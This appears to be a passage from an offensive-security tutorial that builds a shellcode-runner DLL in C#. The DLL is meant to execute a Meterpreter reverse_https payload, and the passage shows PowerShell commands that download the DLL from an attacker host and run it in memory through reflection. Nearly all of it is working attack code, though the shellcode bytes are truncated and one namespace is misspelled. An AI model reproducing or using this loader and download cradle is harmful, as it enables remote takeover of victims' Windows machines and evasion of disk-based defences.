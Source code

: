First, we must create a malicious DLL from VisualStudio. To do so, we will create select the project type as "Class Library(.NET Framework)" obiously in C#. Here are the contents of the DLL:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using Syste.Runtime.InteropServices;

namespace ClassLibrary1
{

  public class Class1
  {
      [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
      static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

      [DllImport("kernel32.dll")]
      static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

      [DllImport("kernel32.dll")]
      static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

      public static void Runner()
      {
        //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 enablestageencoding=true handlersslcert=justice.pem prependmigrate=true -f csharp
        byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8...

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
      }

  }

}
```
(note that we create the runner method with the prefixes public, static and void. Since the runner method must be available through reflection)

Then to invoke it through reflection with Powershell use the following commands:

```
PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/ClassLibrary1.dll')

PS C:\> $assem = [System.Reflection.Assembly]::Load($data)

PS C:\> $class = $assem.GetType("ClassLibrary1.Class1")

PS C:\> $method = $class.GetMethod("runner")

PS C:\> $method.Invoke(0, $null)
```
